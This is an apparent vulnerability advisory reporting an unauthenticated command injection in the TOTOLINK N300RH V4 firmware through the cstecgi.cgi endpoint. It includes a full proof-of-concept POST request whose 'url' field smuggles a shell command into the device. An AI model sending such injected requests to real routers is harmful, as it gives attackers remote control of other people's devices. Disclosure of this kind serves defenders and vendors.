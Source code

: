 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [N300RH_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/188.html)

**Affected firmware version:** V6.1c.1390_B20191101

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html))

# Overview

There is a serious command execution vulnerability in TOTOLINK N300RH V4. The vulnerability can be triggered by the route /cgi-bin/cstecgi.cgi. An attacker can perform a remote command execution attack by sending an HTTP POST setting/CloudACMunualUpdateUserdata  request without authorization.

# Vulnerability details

There is command splicing here

![image-20250510190152609](m1/image-20250510190152609.png)

# 	POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/index.htm
Connection: close
Cookie: languageType=cn; productName=N300RH%20v4; fmVersion=V6.1c.1390
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 01 Nov 2019 08:02:33 GMT
If-None-Match: "4271978973"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

{"topicurl":"setting/CloudACMunualUpdateUserdata",
"url":";echo 'this is first test'> /tmp/1.txt;"
}
```

![image-20250510190312654](m1/image-20250510190312654.png)